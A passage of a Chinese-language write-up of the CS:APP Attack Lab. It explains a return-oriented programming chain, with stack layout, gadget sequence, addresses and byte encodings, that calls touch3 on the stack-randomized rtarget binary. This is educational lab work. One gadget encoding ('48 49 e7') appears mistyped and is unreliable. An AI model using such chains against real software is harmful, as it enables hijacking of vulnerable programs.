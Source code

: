 精彩，不过为什么没用到`farm`的代码段呢，*无所谓了*。

只要达到了攻击效果就行。

（然而我仔细阅读了writeup之后发现，我们需要的字节码都能够在`start_farm`到`mid_farm`中找到, 其实就是pop到`%rax`中，然后再赋值给`%rdi`而已，只不过正好被我在别的程序段找到了更简洁的解法。）

## Phase 5

Phase5要求和Phase3一样，调用`touch3`并且传入字符串`cookie`

与Phase3不同的是，`rtarget`采用了栈随机化，导致我们的字符串若是存在栈中，我们需要解决栈的地址的问题。

那么总体还是一样的，就是调用`touch3`之前，保证`%rdi`的值是字符串的地址。

此外，还要将

```text
35 39 62 39 39 37 66 61 # cookie的ASCII表示
```

存在那个地址。

然后将`touch3`的地址压入栈中，`ret`指令进入`touch3`:`0x4018fa`

但是，`rtarget`中，我相信一定不会有这样的内存区域正好存着cookie的ASCII，所以这一串仍然需要我们通过缓冲区溢出的漏洞，写入栈帧中。

那么问题就在于，如何在栈随机化的程序上，明确`%rsp`的值呢？

或者，我们只需要`%rsp`的值赋值给`%rdi`，然后对`%rdi`进行一些加减操作，偏移到我们存储的地方即可。

并且注意到`farm.c`中正好就有定义`add_xy(long x, long y)`:并且在`rtarget.asm`中的`0x4019d6`

那么显然我们有这样的栈结构和操作:

```text
address + 0x28:[cookie的ASCII]  # <- %rdi + 0x20
address + 0x20: [touch3的地址]    
address + 0x18: [add_xy()的地址]
address + 0x10: [第二个参数:0x20]
address + 0x8: [gadget 3的地址]  # mov %rsp, %rdi之前，%rsp是在这
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: mov %rsp, %rdi        # 获取%rsp的值 初始化add的第一个参数
gadget 2: ret                   # 进入gaget3
gadget 3: popq %rsi             # 初始化%rsi第二个参数为0x20
gadget 4: ret                   # 然后ret进入add_xy

# 进入add_xy之后ret
# %rax为加法结果: %rdi + 0x20

gadget 5: mov %rax, %rdi        # 加法结果保存为第一个参数
gadget 6: ret
```

对照gadgets的指令有:

```text
48 49 e7 # mov %rsp, %rdi
c3       # ret
5e       # popq %rsi
c3       # ret
48 89 c7 # mov %rax, %rdi
c3       # ret
```
